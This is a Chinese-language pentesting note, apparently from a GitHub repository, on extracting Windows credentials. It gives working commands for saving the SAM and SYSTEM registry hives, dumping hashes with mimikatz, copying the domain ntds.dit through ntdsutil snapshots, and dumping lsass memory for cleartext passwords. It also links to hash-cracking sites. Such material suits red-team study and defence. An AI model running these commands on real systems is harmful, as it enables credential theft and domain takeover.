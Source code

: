 # Windows Hash提取

## 0x00 基础知识

- LM Hash Windows Vista和Windows Server 2008以前的系统还会使用
- NTLM Hash
- Net-NTLM Hash 网络环境下NTLM认证中的hash

[Windows下的密码hash——NTLM hash和Net-NTLM hash介绍](https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D)
## 0x01 离线获取Hash

### 1.目标主机注册表导出文件
```
reg save HKLM\SYSTEM system.hive
reg save HKLM\SAM sam.hive
reg save hklm\security security.hive
```
### 2. 通过mimikatz导出Hash

```
$ ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::sam /sam:sam.hive /system:system.hive
```

### 3. 导出域Hash ntds,dit
```
 创建快照
ntdsutil snapshot "activate instance ntds" create quit quit
GUID 为 {aa488f5b-40c7-4044-b24f-16fd041a6de2}

# 挂载快照
ntdsutil snapshot "mount GUID" quit quit

# 复制 ntds.dit
copy C:\$SNAP_201908200435_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit

# 卸载快照
ntdsutil snapshot "unmount GUID" quit quit

# 删除快照
ntdsutil snapshot "delete GUID" quit quit

# 查询快照
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
 ```
## 0x02 主机获取密码

### 获取明文密码

>在 KB2871997 之前， Mimikatz 可以直接抓取明文密码。
当服务器安装 KB2871997 补丁后，系统默认禁用 Wdigest Auth ，内存（lsass进程）不再保存明文口令。Mimikatz 将读不到密码明文。
但由于一些系统服务需要用到 Wdigest Auth，所以该选项是可以手动开启的。（开启后，需要用户重新登录才能生效）

以下是支持的系统:
Windows 7
Windows 8
Windows 8.1
Windows Server 2008
Windows Server 2012
Windows Server 2012R 2

- 原理：获取到内存文件lsass.exe进程(它用于本地安全和登陆策略)中存储的明文登录密码
利用前提：拿到了admin权限的cmd，管理员用密码登录机器，并运行了lsass.exe进程，把密码保存在内存文件lsass进程中。
抓取明文：手工修改注册表 + 强制锁屏 + 等待目标系统管理员重新登录 = 截取明文密码

procdump64.exe导出lsass.dmp
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
使用本地的mimikatz.exe读取lsass.dmp
```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit"
```

## 0x03 破解 Hash 
>强力推荐
- [Ophcrack 在线破解](https://www.objectif-securite.ch/en/ophcrack)

- [Cmd5在线破解](https://www.cmd5.com/)

## Ref

- https://3gstudent.github.io/Windows%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81hash-NTLM-hash%E5%92%8CNet-NTLM-hash%E4%BB%8B%E7%BB%8D 
- https://uknowsec.cn/posts/notes/Mimikatz%E6%98%8E%E6%96%87%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96.html
